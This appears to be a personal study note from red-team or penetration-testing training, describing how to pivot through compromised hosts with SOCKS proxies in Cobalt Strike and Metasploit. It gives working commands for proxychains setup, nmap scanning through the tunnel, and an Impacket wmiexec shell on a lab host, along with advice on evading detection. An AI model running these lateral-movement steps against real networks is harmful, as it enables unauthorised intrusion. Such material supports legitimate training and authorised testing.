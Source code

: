 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SOCKS Proxies]]  
___

## Description:  

### CobaltStrike SOCKS proxy

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

This is particularly helpful when we want to leverage Linux-based toolsets such as [Impacket](https://github.com/SecureAuthCorp/impacket).

 It also carries additional OPSEC advantages - since we're not pushing offensive tooling onto the target or even executing any code on a compromised endpoint, it can shrink our footprint for detection.

To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
This will bind port 1080 on the Team Server.

Open `/etc/proxychains.conf` and change `socks4 127.0.0.1 9050`. Change `9050` to `1080` (or whichever port you're using).


To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.

Before running commands run `sleep 0` in beacon to set it to interactive mode. After you run command set it back to `sleep 15`.

```
beacon> sleep 0
```


 ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for nmap to work.

```
root@kali:~# proxychains -q nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```

Interactive shell through proxychains

```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:49682-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
dev\bfarmer

C:\>hostname
srv-1

```


### Metasploit Socks Proxy

^8b8d22

Setup other routes first:
[[Metasploit#^8f3ca2]]

```
msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > show options
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

We can now update our ProxyChains configuration file (/etc/proxychains.conf) 
`kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf`

Now run commands:
`kali@kali:~$ sudo proxychains rdesktop 192.168.1.110`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:50 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
